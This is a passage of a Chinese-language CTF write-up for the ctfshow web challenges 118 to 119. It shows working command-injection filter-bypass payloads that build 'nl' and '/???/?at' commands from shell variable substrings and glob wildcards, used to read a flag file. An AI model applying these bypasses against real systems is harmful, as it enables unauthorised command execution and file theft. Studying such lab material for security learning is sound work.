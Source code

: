 ![image-20220318212249549](https://img-blog.csdnimg.cn/img_convert/cbe4994ff0d2f2145df7a75689d5947a.png)

readflag是专门用来读flag的。
然后访问`/1.txt`即可。

![image-20220318212314783](https://img-blog.csdnimg.cn/img_convert/94a2df6aca7604f681b7d2de45831f69.png)

# web118

![image-20220318212434056](https://img-blog.csdnimg.cn/img_convert/fa18aff689783dce7c5bcc30c4d18141.png)

难得的新界面！查看一下源代码

![image-20220318212454255](https://img-blog.csdnimg.cn/img_convert/dfcb952d92a0feff6f61ae03b125ba3d.png)

> system($code);  这就是说明我们可以执行命令,但是有些指令是被ban的

```
利用系统变量构造nl命令
${PATH:~A}${PWD:~A}$IFS????.???
```

![image-20220713121341725](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207131213810.png?x-oss-process=hzy)

# web119

跟上题一样的界面,又多了过滤的东西,上面的payload也被ban了

```
${SHLVL}       //一般是一个个位数
${#SHLVL}     //1，表示结果的字符长度
${PWD:${#}:${#SHLVL}}       //表示/
${USER}        //www-data
${PHP_VERSION:~A}       //2
${USER:~${PHP_VERSION:~A}:${PHP_VERSION:~A}}         //at
```

payload如下

```
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}?${USER:~${PHP_VERSION:~A}:${PHP_VERSION:~A}} ????.???
```

```
/???/?at ????.???
```

![image-20220713122441821](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207131224890.png?x-oss-process=hzy)

# web120

题目如下
